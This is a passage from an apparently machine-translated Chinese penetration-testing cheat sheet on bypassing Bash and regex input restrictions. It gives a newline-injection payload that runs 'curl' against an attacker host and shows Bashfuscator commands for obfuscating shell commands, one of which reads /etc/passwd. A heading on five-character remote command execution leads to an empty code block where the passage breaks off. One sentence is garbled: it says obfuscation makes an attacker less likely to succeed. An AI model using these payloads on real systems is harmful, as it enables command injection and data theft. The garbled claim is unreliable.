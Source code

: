 通过使用这些技巧，我们可以绕过正则表达式的限制，从而更好地进行渗透测试。
```bash
# A regex that only allow letters and numbers might be vulnerable to new line characters
1%0a`curl http://attacker.com`
```
### Bashfuscator

Bashfuscator是一个工具，用于绕过Bash脚本中的限制。它可以对Bash脚本进行混淆，使其难以理解和分析。Bashfuscator通过使用各种技术，如变量替换、函数重命名和代码重排，来改变脚本的结构和逻辑。这使得脚本的分析和检测变得更加困难，从而增加了攻击者成功执行恶意操作的难度。

使用Bashfuscator时，可以通过以下命令来混淆Bash脚本：

```bash
bashfuscator -i input_script.sh -o output_script.sh
```

其中，`input_script.sh`是要混淆的Bash脚本的输入文件，`output_script.sh`是混淆后的脚本的输出文件。

Bashfuscator还提供了其他选项，如`-v`用于显示详细的输出信息，`-r`用于启用随机化技术，以增加混淆的效果。

请注意，Bashfuscator仅用于教育和研究目的，使用它进行非法活动是违法的。
```bash
# From https://github.com/Bashfuscator/Bashfuscator
./bashfuscator -c 'cat /etc/passwd'
```
### 五个字符实现远程命令执行（RCE）

在某些情况下，我们可能会遇到受限制的环境，其中我们无法使用常规的命令执行技术。然而，我们仍然可以利用一些特殊的字符来绕过这些限制，并实现远程命令执行（RCE）。

以下是一个使用仅限于五个字符的技巧，用于在受限制的环境中实现RCE：

```bash
```